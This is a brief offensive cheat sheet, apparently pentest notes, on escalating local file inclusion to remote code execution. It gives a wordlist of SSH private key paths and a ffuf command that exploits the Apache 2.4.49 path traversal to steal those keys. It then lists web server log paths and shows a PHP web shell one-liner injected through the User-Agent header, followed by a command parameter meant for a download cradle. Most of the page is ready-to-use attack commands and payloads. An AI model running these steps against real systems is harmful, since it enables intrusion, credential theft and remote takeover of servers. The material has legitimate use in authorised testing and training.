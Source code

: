 # LFI2RCE

## Via SSH Private Keys

We first need to grep `/etc/passwd` for home directories and create the wordlist `home_dirs.txt` for them.

We can then use the following wordlist to fuzz default private key names that SSH looks for.

**ssh_key_formats.txt**

```bash
.ssh/id_rsa
.ssh/id_ecdsa
.ssh/id_ecdsa_sk
.ssh/id_ed25519
.ssh/id_ed25519_sk
```

Example command with ffuf (exploiting apache 2.4.49):

```bash
ffuf -w home_dirs.txt:F1,ssh_key_formats.txt:F2 -u "http://$IP/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/F1/F2"
```

## Via Log Files

We can first use LFI to inspect the following paths:

```bash
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

If we view these files and see values we control inside of them (such as the `User-Agent` header), we can gain RCE by injecting a PHP web route into said value.

In the case `User-Agent` is viewable, we can add the following PHP code to our `User-Agent` header when simply accessing the site normally:

```php
<?php system($_GET['cmd']); ?>
```

We can then make a request to the log files using the LFI to see if our injected PHP code is being rendered.

If the PHP code is not viewable, and only a space is seen, we know that PHP is being evaluated by the web server.

We can then obtain RCE by adding the following to our LFI request:

```bash
&cmd=<PS_CRADLE_HERE>
```
